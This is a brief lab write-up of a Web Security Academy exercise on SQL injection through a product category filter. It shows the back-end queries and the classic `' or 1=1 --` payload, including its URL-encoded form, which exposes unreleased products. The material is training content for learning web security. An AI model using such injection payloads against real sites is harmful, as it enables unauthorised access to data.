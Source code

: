 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
- sqli: product category filter
- end goal: display all of unreleased products

### Analysis
- URL: `https://0a3f003c048390a880633f6f00050041.web-security-academy.net/`

- front-end: `/filter?category=Pets`
- back-end:
```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

- front-end: `/filter?category='`
- back-end:
```sql
SELECT * FROM products WHERE category = ''' AND released = 1
'-- Internal Server Error 
```

- front-end: `/filter?category=' or 1=1 --`
- when you use `burpsuite` or `caido` you should encode the url like this: `/filter?category='%20or%201%3D1%20--`
- back-end:
```sql
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
-- this payload is use for comment which mean ignore everything that follow 1=1
```

---